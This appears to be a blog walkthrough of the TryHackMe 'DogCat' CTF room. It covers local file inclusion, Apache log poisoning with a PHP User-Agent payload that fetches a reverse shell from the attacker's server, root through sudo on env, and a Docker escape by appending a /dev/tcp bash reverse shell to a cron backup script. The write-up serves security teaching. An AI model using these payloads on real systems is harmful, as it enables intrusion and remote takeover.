

# 😼 DogCat walkthrough / logs poisoning

```javascript
"21.05.2024"
```


Link to CTF on TryHackMe


## Initial target Enumeration

Today, we will attempt to escape from a Docker container that hosting a web server page.

Traditionally, let’s start with a basic nmap scan:

```bash
nmap target_ip
```

<figure><figcaption></figcaption></figure>

We see that port 22 (SSH) and port 80 (HTTP) are open. Let's take a more in-depth look and run nmap basic scripts with version defining scan on those ports.


```bash
nmap -sC -sV -p22,80 target_ip
```


Nothing valuable was found by the nmap scan, so let’s move further.

## Searching the Web

The web page which is running on port 80 provided us with a few interesting things:

1. We can press a button (A dog / A cat) to print a random image of the chosen animal from the web folder.
2. In the URL, we have a ‘view=‘ attribute which we will explore now&#x20;

<figure><figcaption></figcaption></figure>

After playing around with the URL, we can determine that the ‘view=‘ attribute is designed to print a file from the local system. Therefore, we can try to print the content of /etc/passwd to confirm this and potentially identify valid system users or exploit a 'no root password' vulnerability.

<figure><figcaption></figcaption></figure>

Unfortunately, we were redirected to the main page. Let’s find out why that happened. After some basic manipulation with the variable of the ‘view=‘ attribute, we managed to find that to bypass the filter, the string ‘cat’ or ‘dog’ needs to be included in it. So, I tried to use a null byte after the path to the file and encountered an error.

<figure><figcaption></figcaption></figure>

With that error code, we can tell that the index.php file is using the include() function to open files from the local system. Let's try a different way of including the word ‘cat’ into the URL.

<figure><figcaption></figcaption></figure>

### Exploring target infrastructure&#x20;

With the following attribute in the ‘view=‘ parameter, we are using the 'cat' directory as the starting point to move outside to our main destination (/etc/passwd). However, we faced the following problem: the .php extension was automatically added by a function inside the index.php file. So, let’s try to print the content of this file using the method of converting it into base64 format to bypass the include function security filters.

Error code when trying to output the content of the index.php file without the base64 filter:

<figure><figcaption></figcaption></figure>

Output with base64 filter in use:

<figure><figcaption></figcaption></figure>

Let’s copy that base64 value and decode it on our system. Use \`echo\` to write copied value into the file, and \`base64\` with \`-d\` flag for decoding, \`-i\` flag stands for input, and \`-o\` flag which defines the output file.

```bash
echo base64_string > hash
base64 -i hash -o decoded_value 
```

<figure><figcaption></figcaption></figure>

### Index.php

<figure><figcaption></figcaption></figure>

In the index.php file, we see a few important things:

1\. As we mentioned earlier, there is a filter that allows file paths only with the strings ‘dog’ or ‘cat’ included.

2\. There is an ‘ext’ attribute that is used for changing extensions of the path to the file provided into the include function.&#x20;

From here, as the server is running on Apache, we can try to use the log poisoning technique. We will send a request to the server with a user-agent set to a PHP script which will download the reverse shell from our system into the target host folder.

Let’s firstly prove that we have access to the /var/log/apache2/access.log file, which contains information about all requests made on the server.

<figure><figcaption></figcaption></figure>

## Sending the payload

Let’s start python http server with already prepared reverse php shell ( I have used pentestmonkey/php\_reverse\_shell ), and metasploit listener with port and ip provided in shell.php file&#x20;

```bash
msfconsole -q 
use exploit/multi/handler 
set LPORT 4443
set LHOST your_vpn_ip
run 

python3 -m http.server 
```

<figure><figcaption></figcaption></figure>

Now we can sent get request with modified user-agent.

```bash
curl http://target_ip/ -H "User-Agent:<?php file_put_contents( 'shell.php', file_get_contents'http://your_vpn_ip:8000/shell.php'))?>"
```

<figure><figcaption></figcaption></figure>

Now, we need to refresh the page with content of the access.log file to activate our PHP script. After that, we can open /shell.php on the target machine and obtain a shell in Metasploit.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We landed in the www-data user, so let’s look for flags and try to escalate our privileges. In /var/www and /var/www/html, we managed to find our first and second flags.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


<mark style="color:green;">**Flag 1**</mark> && <mark style="color:green;">**Flag 2**</mark>&#x20;


## Privileges escalation

After running `sudo -l`, we see that we can run `/env` with sudo privileges. So, let’s use that to elevate our privileges to the root user and obtain the third flag.&#x20;

<figure><figcaption></figcaption></figure>


<mark style="color:green;">**Flag 3**</mark> / <mark style="color:green;">**4**</mark>


### Escaping docker container

Now, we need to move out of the Docker container. After some investigation, I was able to find the backup.sh file that runs every minute.

<figure><figcaption></figcaption></figure>

Let's input basic Bash reverse shell command into it, move to background session, and initiate a Metasploit listener.

```bash
echo "bash -i >& /dev/tcp/your_vpn_ip/4242 0>&1" >> /opt/backups/backup.sh
```

<figure><figcaption></figcaption></figure>

Within few minutes we got shell in metasploit and the last flag.

<figure><figcaption></figcaption></figure>


<mark style="color:green;">**4**</mark> / <mark style="color:green;">**4**</mark>&#x20;


Thanks to all the readers for following along with my journey! Hope you have learnt something new, and this challenge wasn’t big problem for you.
